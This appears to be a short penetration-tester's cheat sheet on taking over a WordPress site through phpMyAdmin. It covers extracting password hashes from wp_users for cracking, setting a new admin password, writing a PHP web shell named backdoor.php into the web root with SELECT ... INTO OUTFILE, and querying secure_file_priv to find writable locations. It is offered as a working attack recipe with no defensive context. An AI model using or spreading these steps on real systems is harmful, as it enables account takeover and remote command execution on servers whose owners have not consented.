 # phpmyadmin to get wordpress hash for crackin or set new password 

## get hash in wp_users table 


## set new password
https://ehikioya.com/wordpress-password-hash-generator/  

login to wp-admin 

## write shell into file
create database --> choose database and press SQL

```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
```

## No write permission --> --secure file Priv

get files to write to

```sql
select @@secure_file_priv;
select @@global.secure_file_priv;
show variables like "secure_file_priv"; 
```
#


tags: #wordpress #phpmyadmin 
